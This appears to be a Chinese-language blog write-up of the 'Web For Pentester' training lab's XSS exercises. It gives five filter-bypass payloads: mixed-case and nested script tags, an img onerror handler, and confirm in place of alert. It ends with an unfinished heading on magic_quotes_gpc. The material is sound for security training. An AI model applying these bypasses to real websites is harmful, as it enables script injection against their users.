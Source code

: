 ```yaml
---
layout:     post
title:      "Web For Pentester - XSS Part Tips"
subtitle:   "Training exercises"
date:       2016-10-30
author:     "Urahara"
header-img: "img/Couchdb-RCE.jpg"
header-mask: 0.3
tags:
    - 渗透测试
    - Training exercises
---
```



### XSS Example 1
直接输出无任何过滤：
** name=\<script>alert(/XSS/)\</script> **
### XSS Example 2
过滤掉了\<script>标签，通过大小写进行绕过：
** name=\<Script>alert(/XSS/)\</Script> **
### XSS Example 3
过滤了\<script>标签（包括大写），但只过滤了一次，通过嵌套标签来绕过filter表达式：
**name=\<s\<Script>cript>alert(/XSS/)\</sc\</Script>ript>**
### XSS Example 4
使用\<script>标签测试直接显示error，替换\<img>、\<svg>等标签测试成功：
**name=\<img src=1 onerror="alert(/XSS/)">**
### XSS Example 5
alert被过滤，但prompt、confirm函数可使用
**name=\<img src=1 onerror="confirm(/XSS/)">**
> 绕过magic_quotes_gpc
> 

